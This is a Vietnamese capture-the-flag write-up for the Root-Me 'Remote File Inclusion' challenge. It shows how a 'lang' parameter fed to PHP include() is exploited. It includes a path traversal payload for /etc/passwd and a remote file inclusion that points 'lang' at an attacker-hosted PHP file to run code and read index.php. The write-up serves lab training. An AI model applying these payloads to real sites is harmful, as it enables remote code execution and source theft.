

# Remote File Inclusion

**Tên challenge:**  Abbreviated RFI

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)

**Tác giả challenge:** g0uZ

**Mục tiêu challenge:** Get the PHP source code.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, ta sẽ thấy có 2 lựa chọn ngôn ngữ khi truy cập vào trang web như sau:
	


Khi thử click 1 trong 2 lựa chọn thì trang Web sẽ chuyển đổi ngôn ngữ dựa theo lựa chọn mà ta click. Đồng thời, URL của Website cũng sẽ xuất hiện parameter `lang` như sau:
```
http://challenge01.root-me.org/web-serveur/ch13/?lang=en
```

Nhìn vào parameter `lang`, ta có thể liên tưởng đến các kịch bản lỗi bảo mật liên quan như Path Traversal, Local File Inclusion,...

**B2:** Ta thử payload `../../../../../../../../../../../etc/passwd`, để xem Website có trả về nội dung file `passwd` không

Tuy nhiên, trang Web chỉ trả về dòng lỗi sau:
```
Warning: include(): open_basedir restriction in effect. File(../../../../../../../../../../../etc/passwd_lang.php) is not within the allowed path(s): (/challenge/web-serveur/ch13) in /challenge/web-serveur/ch13/index.php on line 18

Warning: include(../../../../../../../../../../../etc/passwd_lang.php): failed to open stream: Operation not permitted in /challenge/web-serveur/ch13/index.php on line 18

Warning: include(): Failed opening '../../../../../../../../../../../etc/passwd_lang.php' for inclusion (include_path='.:/usr/share/php') in /challenge/web-serveur/ch13/index.php on line 18
```

Nếu ta để ý, ta sẽ phát hiện `/etc/passwd` lúc bấy giờ đã được gán thêm đuôi `_lang.php`.

=> Xem ra, ta không thể lợi dụng để đọc được 1 file mà bất kỳ ta muốn vì không phải file nào cũng có dạng `_lang.php` ngoài 2 file ta đã biết: `en_lang.php` và `fr_lang.php`

Tuy nhiên, khi ta nhìn thử vào đoạn lỗi thì ta phát hiện đoạn code xử lý dùng hàm `include` kèm với parameter `lang` để lấy nội dung của file đó.

**Cụ thể:** Trong trường hợp này, parameter `lang=en` khi ta click vào lựa chọn English đã đưa giá trị của `lang` vào hàm `include` để xử lý

=> Có thể đoạn code có dạng sau:
```
$test = $_REQUEST["lang"];
Include($test."_lang.php");
```
Với giá trị `$test="en"` đoạn code `include` hoàn chỉnh là:
```
Include("en_lang.php")
```
Như ta đã biết, hàm `include` có thể lấy file từ URL bên ngoài (remote URL) nếu nội dung trong file có chứa cú pháp **PHP** hợp lệ.

Vậy thì sẽ ra sao nếu ta Upload 1 file có dạng `test_lang.php` lên Website Attacker của mình. Rồi ở parameter `lang` thì ta sẽ đưa đường dẫn URL đến file `test_lang.php`. Liệu Website có thực thi nội dung trong file đó không ?

**B3:** Ta tạo 1 file `test_lang.php` với nội dung:
```
<?php phpinfo();? ?>
```
**B4:** Ta Upload file đó lên Web bên ngoài của ta

**B5:** Ta đổi giá trị `lang` thành: `https://web_cua_ta.com/test`

* **Lưu ý:** Chỉ nên để `test`, vì nếu để `test_lang.php` trong payload URL thì trang Web Challenge sẽ lại nối đuôi giá trị `lang` thành `test_lang.php_lang.php`, dẫn đến lỗi vì trên Website của mình không có file nào tên vậy.



=> Vậy là ta đã thực thi thành công code trên Website.

Tiếp theo, ta chỉ cần đọc file `index.php` thôi.

<u>**Thông tin thêm:**</u> Do Website đã filter các hàm dùng để thực thi Command OS nên ta chỉ có thể dùng hàm `file_get_contents("./index.php")` trong PHP để đọc nội dung file rồi in ra thôi.